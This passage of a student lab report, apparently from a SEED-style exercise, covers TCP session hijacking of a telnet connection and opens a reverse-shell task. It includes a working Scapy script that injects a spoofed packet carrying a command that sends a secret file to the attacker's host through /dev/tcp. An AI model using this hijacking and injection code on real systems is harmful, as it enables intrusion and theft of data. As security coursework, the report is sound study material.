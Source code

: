 <figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_f76c4056f53cc38d9b1f585e88e36e42.png"/>
<figcaption> Figure 4.2.2 Executing of the attack from the netwox</figcaption><br>
</figure>

Based on the values in the last TCP package, we constructured the script codes for attacking. 

```Python
#!/usr/bin/python
from scapy.all import *

ip = IP(src="10.0.2.6", dst="10.0.2.7")
tcp = TCP(
    sport=39176, dport=23, flags="A",
    seq=3770990930, ack=1042719746
)
data = "\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt,verbose=0)
```

After lauching the attack, we got the output below, which shows that we successfully access the secret file form the "*VTM1*". 

<figure>
<img style="width:100%; padding-left:0%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_132822999242ee8170a3cfd3ff6d74db.png"/>
<figcaption> Figure 4.3.2 Outputs for the commands</figcaption><br>
</figure>

<div style="page-break-after: always;"></div>

## Task 5: Creating Reverse Shell using TCP Session Hijacking

In this task, we used the similar configuration as before. The attacker's IP was `10.0.2.15`. The IP of Server and client were `10.0.2.7` and `10.0.2.6` respectively. 
In the end, we expected to see that the attack machine hijacked the telnet connection between the victim and the server, and it could run the Shell as the victim machine on the server.

We first built the telnet connection as the following and we also used the command `netstat -tna | grep 10.0.2.6` to verify the connection. 

<figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_51bab920ad71225615ac577a81de5923.png"/>
<figcaption> Figure 5.1 Establishing the Telnet from Client to Server </figcaption><br>
</figure>

On the attack machine, we ran the wireshark that captured the last package between the victim and the server.

<figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_dcd07ce76b527ce17359e64c5e4e8aac.png"/>
<figcaption> Figure 5.2 Running Wireshark to check the Seq and Ack number </figcaption><br>
</figure>
